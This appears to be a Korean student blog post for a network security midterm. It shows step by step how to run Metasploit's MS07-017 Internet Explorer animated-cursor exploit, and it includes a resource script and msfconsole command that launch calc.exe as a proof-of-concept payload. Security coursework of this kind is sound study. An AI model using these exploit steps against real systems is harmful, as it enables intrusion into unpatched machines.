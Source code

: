 ```yaml
---
title: 네트워크보안 중간고사
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-04-24 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. metasploit 을 이용한 취약점 증명 구현

---

이 공격 기법은 Exploitation for client Execution으로 MS07-017(IE가 애니메이션 커서를 처리하는 과정에서 버퍼 오버플로우가 발생하는 취약점)을 이용한 공격이다.

작업을 편하게 하기 위해 바탕화면으로 이동하여 작업을 한다.

metasploit을 이용한 취약점 증명을 구현하기 위해 스크립트 파일을 작성한다.

> Kali에서 진행한다.

```shell
kali# cd ~/Desktop
kali# vim ms07_017_exec.rc
```

<br>

> ms07_017_exec.rc

```vim
use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
set SRVPORT 8080
set PAYLOAD windows/exec
set CMD calc.exe
exploit
```

<br>
스크립트 파일을 생성했으니, msfconsole을 이용하여 스크립트 파일을 실행하여 준다.

> Kali에서 진행한다.

```shell
kali# msfconsole -r ms07_017_exec.rc
```

<br>
정상적으로 실행이 되었다면 아래와 같은 결과가 나오게 된다.

![1](https://user-images.githubusercontent.com/59737252/164978146-b405574f-7675-45bd-a68a-8b5bb206823f.png)

